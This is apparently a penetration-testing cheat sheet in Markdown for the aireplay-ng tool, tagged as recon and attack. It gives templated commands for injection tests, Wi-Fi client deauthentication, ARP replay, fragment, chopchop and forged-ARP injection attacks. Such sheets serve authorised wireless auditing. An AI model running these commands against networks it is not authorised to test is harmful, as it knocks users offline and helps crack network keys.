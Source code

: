 # aireplay-ng
% wifi, aireplay-ng
#plateform/linux #target/remote #cat/RECON #cat/ATTACK

## _desc
```
generate wifi traffic. The device must be set to monitor mode and channel must be set.
```

## _repo
```
```

## _doc
```
https://www.aircrack-ng.org/doku.php?id=aireplay-ng
```

## _install
```
```

## Injection test
```bash
sudo aireplay-ng --test <wlan_interface|wmon> 
```

## Injection test essid
```bash
sudo aireplay-ng --test -e <essid> <wlan_interface|wmon> 
```

## Injection test essid
```bash
sudo aireplay-ng --test -e <essid> -a <bssid> <wlan_interface|wmon> 
```


## Deauthentication
```bash
sudo iw dev <wlan_interface|wmon> set channel <channel> && 
sudo aireplay-ng --deauth <count|5> -a <bssid> -c <wlan_station_mac> <wlan_interface|wmon>
```

## ARP replay
```bash
sudo iw dev <wlan_interface|wmon> set channel <channel> && 
sudo aireplay-ng --arpreplay -b <bssid> -h <wlan_station_mac> <wlan_interface|wmon>
```

## fragment attack
```bash
sudo iw dev <wlan_interface|wmon> set channel <channel> && sudo aireplay-ng --fragment -b <bssid> -h <wlan_station_mac> <wlan_interface|wmon>
```


## KoreK chopchop attack
```bash
sudo iw dev <wlan_interface|wmon> set channel <channel> && sudo aireplay-ng --chopchop -b <bssid> -h <wlan_station_mac> <wlan_interface|wmon>
```

## ARP injection
```bash
sudo iw dev <wlan_interface|wmon> set channel <channel> && 
sudo aireplay-ng --interactive -r <forged_arp_fle>.cap -h <bssid> <wlan_interface|wmon>
```
